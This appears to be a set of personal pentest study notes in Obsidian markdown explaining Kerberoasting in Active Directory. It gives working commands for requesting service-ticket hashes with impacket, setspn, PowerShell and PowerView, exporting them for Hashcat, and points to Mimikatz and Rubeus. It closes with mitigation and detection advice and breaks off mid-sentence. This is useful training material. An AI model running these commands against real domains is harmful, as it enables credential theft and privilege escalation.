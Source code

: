 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 2 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
Kerberoasting is a lateral movement/privilege escalation technique used in AD environments. It attacks [[Active Directory#Service Principal Name (SPN)|Service Principle Name (SPN)]] accounts.
![[Active Directory#Service Principal Name (SPN)]]
Domain accounts are often used to run services to overcome network auth limitations of local built-in accounts. However, any domain user can request a Kerberos ticket for any service account in the same domain (*This is also possible across trusts if the relationship permits it*). Once you have an account (credentials, NTLM hash, shell in context, or SYSTEM access on a domain joined host), you can perform a Kerberoasting attack.

Domain accounts that run services are often local administrators or high privileged domain accounts due to the distributed nature of how the services interact in the network.

**The Key Vulnerability**
Even with a Kerberos ticket for one of these privileged accounts, we cannot just execute commands as that user. However, the ticket ([[Kerberos#Ticket Granting Service (TGS)|TGS-REP]]) is *encrypted with the service account's NTLM hash*. This then means that theoretically, the plain-text password for the service account could be brute forced (eg. [[Hashcat]]).

Often, the password for these service accounts are weak or reused, so breaking one could give you access to a variety of accounts or servers. Cracking one of these service accounts, could give you an attack path through a service to gain RCE.

The attack can be performed from multiple places:
- From a non-domain joined Linux host using valid domain user credentials
- From a domain-joined Linux host as root after retrieving the `keytab` file
- From a domain-joined Windows host authenticated as a domain user
- From a domain-joined Windows host with a shell in the context of a domain account
- As `SYSTEM` on a domain-joined Windows host
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) `/netonly`

## Kerberoasting with GetUserSPNs.py - Linux
`GetUserSPNs.py` is an [impacket toolkit](https://github.com/SecureAuthCorp/impacket) script for working with SPNs.
### Request TGS tickets for SPN accounts
```bash
# Requests from all accounts
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request -outputfile all_accounts_tgs

# Requests from a single account
GetUserSPNs.py -dc-ip [ip] [domain]/[user] -request-user [target-user]
```
> The output will be in format for [[Hashcat]] - mode: 13100
> We can then use a tool like [[CrackMapExec]] to validate the account credentials once cracked.

## Manual Kerberoasting with setspn.exe - Windows
Before modern automated tools existed, manual methods such as using the built-in [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) was the way this attack was performed.
The general methodology is to extract a bunch of SPNs, then request TGS tickets and have them loaded into memory. Finally, we can then use a tool like [[Mimikatz]] to extract them from memory.
### Enumerate SPNs
```batch
setspn.exe -Q */*

:: Example Output
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
```
> This will return not only users, but computers too. You may want to only focus on users.

### Targeting a single user
```PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
The general concept here is:
1. The `Add-Type` cmdlet allows us to use `.NET` classes
2. The `-AssemblyName` allows us to specify the assembly with the types we need
3. [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is the namespace that contains the classes relating to building security token services
4. `New-Object` creates a new `.NET` object
5. Using the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class creates a security token for the passed SPN name for our currently logged in user
> This is essentially what automated tools such as [[Rubeus]] do

### Targeting all users
> This will include computers, not just users

```PowerShell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting the tickets from memory using [[Mimikatz]]
![[Mimikatz#Extracting Kerberos TGS Tickets]]

## Automated Kerberoasting with PowerView - Windows
### View users with SPNs
```PowerShell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
### Target a specific user
```PowerShell
Get-DomainUser -Identity [user] | Get-DomainSPNTicket -Format Hashcat
```
### Extracting all tickets to a csv
```PowerShell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv [outputfile].csv -NoTypeInformation
cat [outputfile].csv
```

## Automated Kerberoasting with [[Rubeus]] - Windows
![[Rubeus#Summary]]
![[Rubeus#Usage]]

## Mitigation & Detection
### Non-managed service accounts
Using long and complex passwords or pass phrases can drastically reduce the risk of passwords being cracked. A better recommendation is to use [Managed Service Accounts (MSA)](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009), and [Group Managed Service Accounts (gMSA)](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview), which use very complex passwords, and automatically rotate on a set interval (like machine accounts) or accounts set up with [[Windows#Local Administrator Password Solution (LAPS)|LAPS]].

When Kerberoasting is being performed, an abnormal number of `TGS-REQ` and `TGS-REP` requests and responses will be made. This could be an 